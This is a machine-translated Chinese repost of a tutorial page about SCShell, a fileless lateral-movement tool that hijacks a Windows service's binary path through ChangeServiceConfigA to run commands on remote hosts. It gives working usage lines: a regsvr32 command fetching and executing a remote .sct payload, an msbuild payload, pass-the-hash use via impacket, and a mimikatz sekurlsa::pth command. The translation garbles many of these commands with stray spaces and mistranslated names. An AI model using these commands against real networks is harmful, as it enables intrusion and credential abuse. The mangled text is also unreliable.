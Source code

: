 # SCShell:依赖 ChangeServiceConfigA 运行命令的无文件横向移动工具

> 原文：<https://kalilinuxtutorials.com/scshell/>

[![SCShell : Fileless Lateral Movement Tool That Relies On ChangeServiceConfigA To Run Command](img//fef8cbbad5060cce8f3b38a05fc1d364.png "SCShell : Fileless Lateral Movement Tool That Relies On ChangeServiceConfigA To Run Command")](https://1.bp.blogspot.com/-gsZ6BfzLO9Y/Xddz2Sao9TI/AAAAAAAADiE/8qSvWySNIY8fsv8WRZom_HF9iSqAAFVJQCLcBGAsYHQ/s1600/network%2B%25281%2529.png)

**SCShell** 是一个无文件横向移动工具，依靠 ChangeServiceConfigA 运行命令。该工具的优点在于它不针对 SMB 执行身份验证。一切都是通过 DCERPC 执行的。

无需注册服务或创建服务，即可远程使用该实用程序。它也不需要在远程系统上删除任何文件*(取决于用来执行的技术)

**它是如何工作的？**

它只是远程打开一个服务，并通过`**ChangeServiceConfigA**` API 修改二进制路径名，而不是创建一个服务。

然后它启动服务。

一旦执行完成，服务二进制路径就恢复到原来的路径。使用`**QueryServiceConfigA**`提取原始服务路径。

一切都发生在 DCERPC 上，包括身份验证。

**也可理解为-[win pwn:内部 Windows 渗透测试/ AD 安全自动化](https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/)**

**用途**

当前版本是用`C`写的，但是我会把它移植到`**C#**`和`**PowerShell**`。

**SCShell.exe 目标服务有效负载域用户名密码**

`**target**`可设置为`**local**`以本地运行有效载荷

远程执行

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ windows \ system32 \ cmd . exe/C C:\ windows \ system32 \ regsvr 32 . exe/s/n/u/I://your . website/payload . SCT scrobj . dll "。管理员密码

我建议使用`**C:\windows\system32\cmd.exe /c**`来确保一旦服务停止，有效载荷不会被杀死。您需要使用完整路径。

您也可以使用 msbuild 有效负载

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ Windows \ system32 \ cmd . exe/C。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj "。提供了管理员密码
SCShell ***
尝试连接 192.168.197.131
用户名尝试调用 LogonUserA
SC _ HANDLE Manager 0x 009 ed 250
打开 XblAuthManager
SC _ HANDLE Service 0x 009 ed 1 b 0
服务路径更改为 C:\ Windows \ system32 \ cmd . exe/C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj
服务已启动。

我使用 XblAuthManager 作为目标，它是 Xbox 附件管理服务

**路过哈希**

py 是 scshell 的 python2 & 3 实现。使用 impacket 项目，它可以很容易地用于执行相同的横向移动使用传递散列。

**安装**

**pip 安装插入包**

**用途**

python scshell . py DOMAIN/USER @ target-hashes 00000000000000000000000000:ad 9827 fcd 039 eadde 017568170 abdecce im packet v 0 . 9 . 20-Copyright 2019 secure auth Corporation

[*]命令需要使用完整路径。没有命令输出。谢尔>

您可以使用`C`实用程序来传递散列。默认情况下，将使用当前进程令牌。您可以使用标准的传递散列方法来设置当前进程令牌。

**在本地系统上**

**sekurlsa::PTH/user:user/domain:domain/NTLM:hash/run:cmd . exe**

然后在新创建的 cmd.exe 中运行 SCShell.exe。

**编译来源**

代码是在 Windows 上使用 GCC Mingw 编译器编译的

**鸣谢:Un1k0d3r RingZer0 先生团队**

[**Download**](https://github.com/Mr-Un1k0d3r/SCShell)